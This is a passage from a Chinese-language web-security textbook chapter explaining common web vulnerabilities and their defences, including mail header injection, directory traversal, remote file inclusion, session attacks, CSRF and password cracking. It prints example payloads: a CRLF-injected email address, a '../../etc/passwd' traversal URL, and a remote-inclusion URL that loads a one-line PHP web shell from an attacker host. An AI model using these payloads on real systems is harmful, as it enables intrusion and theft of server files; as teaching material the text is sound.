

攻击者将以下数据作为邮件地址发起请求。

```
bob@hackr.jp%0D%0ABcc: user@example.com
```
%0D%0A 在邮件报文中代表换行符。一旦咨询表单所在的 Web
应用接收了这个换行符，就可能实现对 Bcc 邮件地址的追加发
送，而这原本是无法指定的。

另外像下面一样，使用两个连续的换行符就有可能篡改邮件文本
内容并发送。

```
bob@hackr.jp%0D%0A%0D%0ATest Message
```

再以相同的方法，就有可能改写 To 和 Subject 等任意邮件首部，
或向文本添加附件等动作。
#### 11.2.6　目录遍历攻击
目录遍历（Directory Traversal）攻击是指对本无意公开的文件目录，
通过非法截断其目录路径后，达成访问目的的一种攻击。这种攻击有
时也称为路径遍历（Path Traversal）攻击。

通过 Web 应用对文件处理操作时，在由外部指定文件名的处理存在
疏漏的情况下，用户可使用 .../ 等相对路径定位到 /etc/passed 等绝对
路径上，因此服务器上任意的文件或文件目录皆有可能被访问到。这
样一来，就有可能非法浏览、篡改或删除 Web 服务器上的文件。

固然存在输出值转义的问题，但更应该关闭指定对任意文件名的访问
权限。

- 目录遍历攻击案例

  下面以显示读取文件功能为例，讲解目录遍历攻击。该功能通过
  以下查询字段，指定某个文件名。然后从 /www/log/ 文件目录下
  读取这个指定的文件。

  ```
  http://example.com/read.php?log=0401.log
  ```

  攻击者设置如下查询字段后发出请求。

  ```
  http://example.com/read.php?log=../../etc/passwd
  ```

  查询字段为了读取攻击者盯上的 /etc/passwd 文件，会从
  /www/log/ 目录开始定位相对路径。如果这份 read.php 脚本接受
  对指定目录的访问请求处理，那原本不公开的文件就存在可被访
  问的风险。

  

#### 11.2.7　远程文件包含漏洞
远程文件包含漏洞（Remote File Inclusion）是指当部分脚本内容需要
从其他文件读入时，攻击者利用指定外部服务器的 URL 充当依赖文
件，让脚本读取之后，就可运行任意脚本的一种攻击。

这主要是 PHP 存在的安全漏洞，对 PHP 的 include 或 require 来说，
这是一种可通过设定，指定外部服务器的 URL 作为文件名的功能。
但是，该功能太危险，PHP5.2.0 之后默认设定此功能无效。

固然存在输出值转义的问题，但更应控制对任意文件名的指定。

- 远程文件包含漏洞的攻击案例f

  下面以 include 读入由查询字段指定文件的功能为例，讲解远程
  文件包含漏洞。该功能可通过以下查询字段形式指定文件名，并
  在脚本内的 include 语句处读入这个指定文件。

  ```
  http://example.com/foo.php?mod=news.php
  ```
  对应脚本的源代码如下所示。

  >http://example.com/foo.php 的源代码（部分摘录）

  ```
  $modname = $_GET['mod'];
  include($modname);
  ```

  攻击者指定如同下面形式的 URL 发出请求。

  ```
  http://example.com/foo.php?mod=http://hackr.jp/cmd.php&cmd=ls
  ```

  攻击者已事先在外部服务器上准备了以下这段脚本。

  >http://hackr.jp/cmd.php 的源代码

  ```
  <? system($_GET['cmd']) ?>
  ```

  假设 Web 服务器（example.com）的 include 可以引入外部服务器
  的 URL，那就会读入攻击者在外部服务器上事先准备的
  URL（http://hackr.jp/cmd.php）。结果，通过 system 函数就能在
  Web 服务器（example.com）上执行查询字段指定的 OS 命令了。

  

  在以上攻击案例中，执行了可显示 Web 服务器（example.com）
  上文件及目录信息的 ls 命令。

### 11.3　因设置或设计上的缺陷引发的安全漏洞
因设置或设计上的缺陷引发的安全漏洞是指，错误设置 Web 服务
器，或是由设计上的一些问题引起的安全漏洞。
#### 11.3.1　强制浏览
强制浏览（Forced Browsing）安全漏洞是指，从安置在 Web 服务器
的公开目录下的文件中，浏览那些原本非自愿公开的文件。

强制浏览有可能会造成以下一些影响。

- 泄露顾客的个人信息等重要情报
- 泄露原本需要具有访问权限的用户才可查阅的信息内容
- 泄露未外连到外界的文件

对那些原本不愿公开的文件，为了保证安全会隐蔽其 URL。可一旦知
道了那些 URL，也就意味着可浏览 URL 对应的文件。直接显示容易
推测的文件名或文件目录索引时，通过某些方法可能会使 URL 产生
泄露。

文件目录一览

http://www.example.com/log/

通过指定文件目录名称，即可在文件一览中看到显示的文件名。

容易被推测的文件名及目录名

http://www.example.com/entry/entry_081202.log  
文件名称容易推测（按上面的情况，可推出下一个文件是
entry_081203.log）

备份文件

http://www.example.com/cgi-bin/entry.cgi（原始文件）

http://www.example.com/cgi-bin/entry.cgi~（备份文件）

http://www.example.com/cgi-bin/entry.bak（备份文件）

由编辑软件自动生成的备份文件无执行权限，有可能直接以源代码形
式显示

经认证才可显示的文件

直接通过 URL 访问原本必须经过认证才能在 Web 页面上使用的文件
（HTML 文件、图片、PDF 等文档、CSS 以及其他数据等）

- 强制浏览导致安全漏洞的案例

  下面我们以会员制度的 SNS 日记功能为例，讲解强制浏览可能导致
  的安全漏洞。该日记功能保证了除具有访问权限的用户本人以外，其
  他人都不能访问日记。

  

  该日记中包含的图像照片的源代码如下所示。

  ```
  
  ```

  即使没有对这篇日记的访问权限，只要知道这图片的 URL，通过直接
  指定 URL 的方式就能显示该图片。日记的功能和文本具有访问对象
  的控制，但不具备对图片访问对象的控制，从而产生了安全漏洞。

#### 11.3.2　不正确的错误消息处理
不正确的错误消息处理（Error Handling Vulnerability）的安全漏洞是
指，Web 应用的错误信息内包含对攻击者有用的信息。与 Web 应用
有关的主要错误信息如下所示。
- Web 应用抛出的错误消息
- 数据库等系统抛出的错误消息

Web 应用不必在用户的浏览画面上展现详细的错误消息。对攻击者来
说，详细的错误消息有可能给他们下一次攻击以提示。

- 不正确的错误消息处理导致安全漏洞的案例

**Web 应用抛出的错误消息**

下面以认证功能的认证错误消息为例，讲解不正确的错误消息处
理方式。该认证功能，在输入表单内的邮件地址及密码匹配发生
错误时，会提示错误信息。



上方画面提示“邮件地址未注册”的错误消息。当输入的邮件地址
尚未在该 Web 网站上注册时，就会触发这条错误消息。因为倘
若邮件地址存在，应该会提示“输入的密码有误”之类的错误消
息。

攻击者利用进行不同的输入会提示不同的错误信息这条，就可用
来确认输入的邮件地址是否已在这个 Web 网站上注册过了。

为了不让错误消息给攻击者以启发，建议将提示消息的内容仅保
留到“认证错误”这种程度即可。

**数据库等系统抛出的错误消息**

下面我们以搜索功能提示的错误信息为例，讲解不正确的错误消
息处理。本功能用于检索数据，当输入未预料的字符串时，会提
示数据库的错误。

下面以认证功能的认证错误消息为例，讲解不正确的错误消息处
理。该认证功能在输入表单内的邮件地址及密码匹配发生错误
时，会提示错误信息。



上方的画面中显示了与 SQL 有关的错误信息。对开发者而言，
该信息或许在 Debug 时会有帮助，但对用户毫无用处。
攻击者从这条消息中可读出数据库选用的是 MySQL，甚至还看
见了 SQL 语句的片段。这可能给攻击者进行 SQL 注入攻击以启
发。

系统抛出的错误主要集中在以下几个方面。
- PHP 或 ASP 等脚本错误
- 数据库或中间件的错误
- Web 服务器的错误

各系统应对详细的错误消息进行抑制设定，或使用自定义错误消
息，以避免某些错误信息给攻击者以启发。

#### 11.3.3　开放重定向
开放重定向（Open Redirect）是一种对指定的任意 URL 作重定向跳转
的功能。而于此功能相关联的安全漏洞是指，假如指定的重定向 URL
到某个具有恶意的 Web 网站，那么用户就会被诱导至那个 Web 网
站。

- 开放重定向的攻击案例

  我们以下面的 URL 做重定向为例，讲解开放重定向攻击案例。
  该功能就是向 URL 指定参数后，使本来的 URL 发生重定向跳
  转。

  ```
  http://example.com/?redirect=http://www.tricorder.jp
  ```

  攻击者把重定向指定的参数改写成已设好陷阱的 Web 网站对应
  的 连接，如下所示。

  ```
  http://example.com/?redirect=http://hackr.jp
  ```

  用户看到 URL 后原以为访问 example.com，不料实际上被诱导至
  hackr.jp 这个指定的重定向目标。

  可信度高的 Web 网站如果开放重定向功能，则很有可能被攻击
  者选中并用来作为钓鱼攻击的跳板。

### 11.4　因会话管理疏忽引发的安全漏洞
会话管理是用来管理用户状态的必备功能，但是如果在会话管理上有
所疏忽，就会导致用户的认证状态被窃取等后果。
#### 11.4.1　会话劫持
会话劫持（Session Hijack）是指攻击者通过某种手段拿到了用户的会
话 ID，并非法使用此会话 ID 伪装成用户，达到攻击的目的。


具备认证功能的 Web 应用，使用会话 ID 的会话管理机制，作为管理
认证状态的主流方式。会话 ID 中记录客户端的 Cookie 等信息，服务
器端将会话 ID 与认证状态进行一对一匹配管理。

下面列举了几种攻击者可获得会话 ID 的途径。
- 通过非正规的生成方法推测会话 ID
- 通过窃听或 XSS 攻击盗取会话 ID
- 通过会话固定攻击（Session Fixation）强行获取会话 ID
- 会话劫持攻击案例

下面我们以认证功能为例讲解会话劫持。这里的认证功能通过会
话管理机制，会将成功认证的用户的会话 ID（SID）保存在用户
浏览器的 Cookie 中。



攻击者在得知该 Web 网站存在可跨站攻击（XSS）的安全漏洞
后，就设置好用 JavaScript 脚本调用 document.cookie 以窃取
Cookie 信息的陷阱，一旦用户踏入陷阱（访问了该脚本），攻击
者就能获取含有会话 ID 的 Cookie。

攻击者拿到用户的会话 ID 后，往自己的浏览器的 Cookie 中设置
该会话 ID，即可伪装成会话 ID 遭窃的用户，访问 Web 网站了。

#### 11.4.2　会话固定攻击
对以窃取目标会话 ID 为主动攻击手段的会话劫持而言，会话固定攻
击（Session Fixation）攻击会强制用户使用攻击者指定的会话 ID，属
于被动攻击。

- 会话固定攻击案例

  下面我们以认证功能为例讲解会话固定攻击。这个 Web 网站的
  认证功能，会在认证前发布一个会话 ID，若认证成功，就会在
  服务器内改变认证状态。

  

  攻击者准备陷阱，先访问 Web 网站拿到会话
  ID（SID=f5d1278e8109）。此刻，会话 ID 在服务器上的记录仍
  是（未认证）状态。（步骤① ~ ②）

  攻击者设置好强制用户使用该会话 ID 的陷阱，并等待用户拿着
  这个会话 ID 前去认证。一旦用户触发陷阱并完成认证，会话
  ID（SID=f5d1278e8109）在服务器上的状态（用户 A 已认证）就
  会被记录下来。（步骤③）

  攻击者估计用户差不多已触发陷阱后，再利用之前这个会话 ID
  访问网站。由于该会话 ID 目前已是（用户 A 已认证）状态，于
  是攻击者作为用户 A 的身份顺利登录网站。（步骤④）

  Session Adoption

  Session Adoption 是指 PHP 或 ASP.NET 能够接收处理未知会话 ID
  的功能。

  恶意使用该功能便可跳过会话固定攻击的准备阶段，从 Web 网
  站 获得发行的会话 ID 的步骤。即，攻击者可私自创建会话 ID
  构成陷阱，中间件却会误以为该会话 ID 是未知会话 ID 而接受。

#### 11.4.3　跨站点请求伪造
跨站点请求伪造（Cross-Site Request Forgeries，CSRF）攻击是指攻击
者通过设置好的陷阱，强制对已完成认证的用户进行非预期的个人信
息或设定信息等某些状态更新，属于被动攻击。

跨站点请求伪造有可能会造成以下等影响。
- 利用已通过认证的用户权限更新设定信息等
- 利用已通过认证的用户权限购买商品
- 利用已通过认证的用户权限在留言板上发表言论
- 跨站点请求伪造的攻击案例

下面以留言板功能为例，讲解跨站点请求伪造。该功能只允许已
认证并登录的用户在留言板上发表内容。



在该留言板系统上，受害者用户 A 是已认证状态。它的浏览器
中的 Cookie 持有已认证的会话 ID（步骤①）。

攻击者设置好一旦用户访问，即会发送在留言板上发表非主观行
为产生的评论的请求的陷阱。用户 A 的浏览器执行完陷阱中的
请求后，留言板上也就会留下那条评论（步骤②）。

触发陷阱之际，如果用户 A 尚未通过认证，则无法利用用户 A
的身份权限在留言板上发表内容。

### 11.5　其他安全漏洞
#### 11.5.1　密码破解
密码破解攻击（Password Cracking）即算出密码，突破认证。攻击不
仅限于 Web 应用，还包括其他的系统（如 FTP 或 SSH 等），本节将
会讲解对具备认证功能的 Web 应用进行的密码破解。

密码破解有以下两种手段。
- 通过网络的密码试错
- 对已加密密码的破解（指攻击者入侵系统，已获得加密或散列处理的密码数据的情况）

除去突破认证的攻击手段，还有 SQL 注入攻击逃避认证，跨站脚本攻击窃取密码信息等方法。

- 通过网络进行密码试错

  对 Web 应用提供的认证功能，通过网络尝试候选密码进行的一
  种攻击。主要有以下两种方式。

  - 穷举法
  - 字典攻击

  **穷举法**

  穷举法（Brute-force Attack，又称暴力破解法）是指对所有密钥
  集合构成的密钥空间（Keyspace）进行穷举。即，用所有可行的
  候选密码对目标的密码系统试错，用以突破验证的一种攻击。

  比如银行采用的个人识别码是由“4 位数字”组成的密码，那么就
  要从 0000~9999 中的全部数字逐个进行尝试。这样一来，必定在
  候选的密码集合中存在一个正确的密码，可通过认证。

  因为穷举法会尝试所有的候选密码，所以是一种必然能够破解密
  码的攻击。但是，当密钥空间很庞大时，解密可能需要花费数
  年，甚至千年的时间，因此从现实角度考量，攻击是失败的。

  **字典攻击**

  字典攻击是指利用事先收集好的候选密码（经过各种组合方式后
  存入字典），枚举字典中的密码，尝试通过认证的一种攻击手
  法。

  还是举银行采用个人识别码是“4 位数字”的密码的例子，考虑到
  用户使用自己的生日做密码的可能性较高，于是就可以把生日日
  期数值化，如将 0101~1231 保存成字典，进行尝试。

  与穷举法相比，由于需要尝试的候选密码较少，意味着攻击耗费
  的时间比较短。但是，如果字典中没有正确的密码，那就无法破
  解成功。因此攻击的成败取决于字典的内容。

  

  >利用别处泄露的 ID·密码进行攻击  
   字典攻击中有一种利用其他 Web 网站已泄露的 ID 及密码列表
   进行的攻击。很多用户习惯随意地在多个 Web 网站使用同一
   套 ID 及密码，因此攻击会有相当高的成功几率1。  
   1 根据警方的调查统计，成功入侵率有 6.7%。平成 23 年（2011 年）公
   布的非法访问行为的具体发生状况请参见  
   http://www.npa.go.jp/cyber/statics/h23/pdf040.pdf

- 对已加密密码的破解
  Web 应用在保存密码时，一般不会直接以明文的方式保存，通过
  散列函数做散列处理或加 salt 的手段对要保存的密码本身加密。
  那即使攻击者使用某些手段窃取密码数据，如果想要真正使用这
  些密码，则必须先通过解码等手段，把加密处理的密码还原成明
  文形式。

  

  从加密过的数据中导出明文通常有以下几种方法。

  - 通过穷举法·字典攻击进行类推
  - 彩虹表
  - 拿到密钥
  - 加密算法的漏洞

  **通过穷举法·字典攻击进行类推**

  针对密码使用散列函数进行加密处理的情况，采用和穷举法或字
  典攻击相同的手法，尝试调用相同的散列函数加密候选密码，然
  后把计算出的散列值与目标散列值匹配，类推出密码。

  

  **彩虹表**

  彩虹表（Rainbow Table）是由明文密码及与之对应的散列值构成
  的一张数据库表，是一种通过事先制作庞大的彩虹表，可在穷举
  法 • 字典攻击等实际破解过程中缩短消耗时间的技巧。从彩虹表
  内搜索散列值就可以推导出对应的明文密码。

  

  为了提高攻击成功率，拥有一张海量数据的彩虹表就成了必不可
  少的条件。例如在 Free Rainbow Tables 网站上
  （http://www.freerainbowtables.com/en/tables2/）公布的一张由大
  小写字母及数字全排列的 1~8 位字符串对应的 MD5 散列值构成
  的彩虹表，其大小约为 1050 吉字节。

  **拿到密钥**

  使用共享密钥加密方式对密码数据进行加密处理的情况下，如果
  能通过某种手段拿到加密使用的密钥，也就可以对密码数据解密
  了。

  **加密算法的漏洞**

  考虑到加密算法本身可能存在的漏洞，利用该漏洞尝试解密也是
  一种可行的方法。但是要找到那些已广泛使用的加密算法的漏
  洞，又谈何容易，因此困难极大，不易成功。

  而 Web 应用开发者独立实现的加密算法，想必尚未经过充分的
  验证，还是很有可能存在漏洞的。

#### 11.5.2　点击劫持
点击劫持（Clickjacking）是指利用透明的按钮或链接做成陷阱，覆盖
在 Web 页面之上。然后诱使用户在不知情的情况下，点击那个链接
访问内容的一种攻击手段。这种行为又称为界面伪装（UI
Redressing）。

已设置陷阱的 Web 页面，表面上内容并无不妥，但早已埋入想让用
户点击的链接。当用户点击到透明的按钮时，实际上是点击了已指定
透明属性元素的 iframe 页面。


#### 11.5.3　DoS 攻击
DoS 攻击（Denial of Service attack）是一种让运行中的服务呈停止状
态的攻击。有时也叫做服务停止攻击或拒绝服务攻击。DoS 攻击的对
象不仅限于 Web 网站，还包括网络设备及服务器等。

主要有以下两种 DoS 攻击方式。

- 集中利用访问请求造成资源过载，资源用尽的同时，实际上服务也就呈停止状态。
- 通过攻击安全漏洞使服务停止。



其中，集中利用访问请求的 DoS 攻击，单纯来讲就是发送大量的合
法请求。服务器很难分辨何为正常请求，何为攻击请求，因此很难防
止 DoS 攻击。

多台计算机发起的 DoS 攻击称为 DDoS 攻击（Distributed Denial of
Service attack）。DDoS 攻击通常利用那些感染病毒的计算机作为攻
击者的攻击跳板。

#### 11.5.4　后门程序
后门程序（Backdoor）是指开发设置的隐藏入口，可不按正常步骤使
用受限功能。利用后门程序就能够使用原本受限制的功能。

通常的后门程序分为以下 3 种类型。

- 开发阶段作为 Debug 调用的后门程序
- 开发者为了自身利益植入的后门程序
- 攻击者通过某种方法设置的后门程序

可通过监视进程和通信的状态发现被植入的后门程序。但设定在 Web
应用中的后门程序，由于和正常使用时区别不大，通常很难发现。


